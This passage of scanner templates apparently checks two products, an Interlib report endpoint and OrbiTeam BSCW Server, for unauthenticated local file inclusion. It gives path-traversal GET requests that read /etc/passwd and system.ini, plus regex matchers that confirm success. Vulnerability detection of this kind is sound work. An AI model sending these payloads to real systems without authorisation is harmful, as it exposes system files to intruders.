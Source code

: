 - Method - GET

### URL

- {{BaseURL}}/interlib/report/ShowImage?localPath=etc/passwd
- {{BaseURL}}/interlib/report/ShowImage?localPath=C:\Windows\system.ini

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. for 16-bit app support
- condition - or

**Type - status**

- status
  1. 200

---

# OrbiTeam BSCW Server - Local File Inclusion

## Description

- OrbiTeam BSCW Server versions 5.0.x, 5.1.x, 5.2.4 and below, 7.3.x and below, and 7.4.3 and below are vulnerable to unauthenticated local file inclusion.

- severity - high
- tags - bscw,orbiteam,lfi,unauth,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/pub/bscw.cgi/30?op=theme&style_name=../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---
